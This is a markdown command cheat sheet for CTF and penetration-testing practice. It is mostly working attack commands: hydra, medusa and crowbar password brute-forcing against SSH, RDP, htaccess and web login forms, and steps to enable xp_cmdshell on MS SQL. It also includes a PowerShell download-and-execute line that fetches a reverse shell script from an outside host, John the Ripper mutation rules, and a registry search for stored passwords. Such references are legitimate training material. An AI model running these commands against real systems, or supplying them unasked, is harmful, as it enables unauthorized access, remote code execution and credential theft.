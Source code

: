 # Command reference for CTFs and pen testing practice



## Network Brute Force Commands

### htacess
`medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir`

### RDP
`crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1`

### SSH
`hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v`

### HTTP Post
`hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`


## MS SQL RCE and Rev shell

`sqsh -U sa -S <ip>:<port>`

### test xp cmdshell
`xp_cmdshell 'whoami'`  
`go`  

### if necessary, enable xp_cmdshell
`EXEC SP_CONFIGURE 'show advanced options',1`  
`reconfigure`  
`go`  


`EXEC SP_CONFIGURE 'xp_cmdshell',1`  
`reconfigure`  
`go`  

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

`xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
`go`  

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
`john --rules --wordlist=wordlist.txt hashes.txt`  
`john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt`  


## John Wordlist Rules

`[List.Rules:Wordlist]`  
`$[0-9]`  
`$[0-9]$[0-9]`  
`cAz"[0-9]"`  
`cAz"[0-9][0-9]"`  
`cAz"[£!$]"`  
`cAz"[0-9][£!$]"`  

#### or add to a custom rules list like [List.Rules:MyRule]
`john --rules=MyRule --wordlist=wordlist.txt hashes.txt`

 a good one to use is --rules=Jumbo


## Nix Misc
### Install gobuster
sudo apt install golang -y && go get github.com/OJ/gobuster && sudo cp ~/go/bin/gobuster /usr/local/bin  

## Windows Misc

### Search through registry for "pass" in value name
`reg query HKLM /f pass /t REG_SZ /s`
